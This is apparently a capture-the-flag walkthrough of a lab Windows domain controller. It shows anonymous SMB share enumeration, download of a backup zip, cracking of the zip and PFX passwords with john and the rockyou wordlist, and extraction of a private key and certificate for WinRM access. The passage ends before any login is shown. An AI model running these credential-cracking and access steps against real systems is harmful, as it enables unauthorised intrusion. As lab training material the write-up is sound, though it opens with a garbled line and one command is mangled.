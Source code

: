 From the nmap result we can say that it's a domain controller. Let's start our enumeration from smb services.

```bash
smbclient -N -L  \\\\10.10.11.152
```
Looking into the result, `Shares` share looks interesting. Let's connect will null authentication.

```bash
smbclient -N  \\\\10.10.11.152\\Shares
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

There are two directories inside `Shares`. Let's look into `Dev`. There is a `winrm_backup.zip` file. Let's download the file locally.

```bash
smb: \dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

smb: \dev\> get winrm_backup.zip
```

It's a password protected zip file. Let's use `zip2john` to get a hash so that we can crack the password.
```bash
zip2john winrm_backup.zip > winrm.hash
```
Let's try to bruteforce the hash with `john`.
```bash
john -w=/usr/share/wordlists/rockyou.txt winrm.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```
## Initial foothold

And `john` successfully cracked the hash. Let's unzip the file with password. There is a `legacyy_dev_auth.pfx` in it. The name of the zip file hints that this must be related to `winrm` authentication. To authenticate through `winrm` we need the private key and the certificate. Let's use `openssl` to extract both from the `pfx` file. Before that we need password for the `pfx` file.

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```
```bash
john -w=/usr/share/wordlists/rockyou.txt pfx.hashjohn pfx.hash
```
```bash
john pfx.hash --show                                                                

legacyy_dev_auth.pfx:thuglegacy:::::legacyy_dev_auth.pfx
```
Now let's generate the private key and the certificate.
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
Enter Import Password:
```
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem 
```
